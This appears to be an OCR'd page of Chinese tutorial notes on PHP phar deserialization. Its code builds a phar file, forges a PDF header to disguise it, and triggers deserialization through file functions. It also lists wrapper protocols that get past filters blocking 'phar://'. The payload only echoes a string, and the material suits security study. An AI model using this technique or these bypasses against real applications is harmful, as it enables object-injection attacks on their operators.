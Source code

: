 ```php
<?php
    class Demo{
        function __destruct(){
            echo $this->name."\n";
        }
    }
    $filename="phar://asdf.phar/test.txt";
    file_exists($filename);#执行反序列化,输出asdfgh
?>
```

---

对文件头进行伪造,可以将phar文件伪装成pdf或gif等文件

```php
<?php
    class Demo{}
    @unlink("asdf.phar");
    $phar=new Phar("asdf.phar");//后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("%PDF-1.6<?php __HALT_COMPILER(); ?>");//设置pdf的文件头
    $test=new Demo();
    $test->name='asdfgh';
    $phar->setMetadata($test);
    $phar->addFromString("test.txt","asdfghjkl");
    $phar->stopBuffering();
?>
```

```
 ~/桌面 file asdf.phar
asdf.phar: PDF document, version 1.6
```

在生成phar文件后,可以对其文件后缀进行修改,不影响使用

当发生禁止phar开头时,可以用以下协议代替

```
compress.zlib://phar://phar.phar/test.txt
compress.bzip2://phar://phar.phar/test.txt 
php://filter/read=convert.base64-encode/resource=phar://phar.phar/test.txt
```

```php
<?php
    class Demo{
        function __destruct(){
            echo "<br>".$this->name."<br>";
        }
    }
    $filename="php://filter/read=convert.base64-encode/resource=phar://asdf.phar/test.txt";
    file_get_contents($filename);#执行反序列化,输出asdfgh
?>
```

